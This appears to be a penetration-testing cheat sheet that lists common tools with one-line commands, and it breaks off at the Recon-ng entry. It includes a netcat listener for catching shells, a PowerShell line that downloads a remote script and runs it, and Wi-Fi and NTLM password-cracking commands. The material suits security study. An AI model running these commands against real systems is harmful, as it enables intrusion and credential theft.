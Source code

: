 
### Netcat/Powercat

- **Description:** A networking utility for creating connections.
- **Command:**
    
    ```bash
    nc -lvnp 4444  # Listener
    powercat -l -p 4444 -v  # PowerShell alternative
    ```
    

### PowerShell

- **Description:** Used for post-exploitation and automation.
- **Command:**
    
    ```powershell
    IEX(New-Object Net.WebClient).DownloadString('http://192.168.1.10/script.ps1')
    ```
    

### Burp Suite

- **Description:** A web application testing tool for intercepting, analyzing, and modifying HTTP/HTTPS traffic.
    
- **Usage:** Launch Burp Suite, configure the proxy settings in your browser, and start intercepting requests to identify vulnerabilities like XSS or SQL injection.
    

### Aircrack-ng

- **Description:** A suite of tools for auditing Wi-Fi networks, including password cracking.
    
- **Command:**
    
    ```bash
    aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap
    ```
    

### Hashcat

- **Description:** An advanced password cracking tool supporting multiple hash types.
    
- **Command:**
    
    ```bash
    hashcat -m 1000 -a 0 ntlm_hash.txt /usr/share/wordlists/rockyou.txt --force
    ```
    

### Recon-ng

- **Description:** An OSINT reconnaissance framework for gathering information.
    
- **Command:**
    